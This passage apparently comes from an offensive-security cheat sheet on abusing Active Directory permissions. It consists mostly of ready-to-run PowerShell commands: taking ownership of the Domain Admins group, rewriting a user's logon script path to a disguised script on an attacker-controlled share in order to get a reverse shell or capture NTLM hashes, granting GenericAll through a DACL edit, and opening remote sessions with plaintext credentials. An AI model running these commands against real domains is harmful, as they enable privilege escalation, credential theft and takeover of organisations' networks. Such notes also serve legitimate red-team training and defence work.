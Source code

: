 #### WriteOwner on Group:

{% code overflow="wrap" %}
```powershell
Set-DomainObjectOwner -Identity S-1-5-21-2552734371-813931464-1050690807-512 -OwnerIdentity "spotless" -Verbose
```
{% endcode %}

#### GenericWrite on User:

{% code overflow="wrap" %}
```powershell
Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
```
{% endcode %}

This would change the script that loads everytime the user logs on, hence we can use this to get a reverse shell or capture NTLM hashes.

#### WriteDACL + WriteOwner:

{% code overflow="wrap" %}
```powershell
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```
{% endcode %}

#### Remote Powershelling with Creds:

{% code overflow="wrap" %}
```powershell
#Predefine necessary information

$Username = "YOURDOMAIN\username"

$Password = "password"

$ComputerName = "server"

$Script = {notepad.exe}

#Create credential object

$SecurePassWord = ConvertTo-SecureString -AsPlainText $Password -Force

$Cred = New-Object -TypeName "System.Management.Automation.PSCredential" -ArgumentList $Username, $SecurePassWord

#Create session object with this

$Session = New-PSSession -ComputerName $ComputerName -credential $Cred

# Enter-PSSession

#Invoke-Command

$job = invoke-command -session $session -scriptblock $script

echo $job

```